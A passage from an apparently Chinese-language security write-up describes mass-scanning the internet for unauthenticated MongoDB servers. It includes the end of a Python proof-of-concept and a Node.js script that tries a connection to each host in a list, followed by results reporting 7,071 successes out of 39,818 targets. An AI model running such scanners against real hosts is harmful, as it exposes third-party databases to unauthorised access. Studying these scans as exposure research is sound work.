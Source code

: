         exploit = verify


    if __name__ == '__main__':
        from pprint import pprint

        mp = MyPoc()
        pprint(mp.run())


正当准备开始扫描的时候，F4说他写好了node.js的POC脚本并且已经开始了探测：


	// Get url list
    var FilePath = "";
    var lineread = require("line-reader");
    var mongoose = require('mongoose');
    function conn(host,callback){
        var databaseUrl = 'mongodb://'+host;
        var options = { server: { socketOptions: { connectTimeoutMS: 4000 }}};
        var db = mongoose.createConnection(databaseUrl, options);
        db.on('error', function(error) {
            //console.log(error)
            db.close();
            return;
        });
        db.once('open',function(){
            callback(host);
        })
        db.close();
    }
    lineread.eachLine(FilePath, function(line) {
        if(String(line)){
            conn(line,function(callback){
                console.log("Success : "+callback);
            });
        }
    }).then(function () {
        console.log(FilePath+" Read Done!");
    });


> 提醒：之所以我们没有使用28017端口进行探测漏洞是因为存在较高的误报，所以POC直接采取了创建与目标mongodb数据库的连接，判断是否成功来进行检测。

<br>

#### 3. Scan results

目标列表从最初的几千万缩小到<40000对效率来说是非常有意义的，所以10分钟后我们对这些目标已经完成了全部扫描，结果令我们惊讶：


	[*] Start-date: 20141202-23:20
    [*] End-date: 20141202-23:28

    [*] Info
        [+] Target: 39818
        [+] Success: 7071
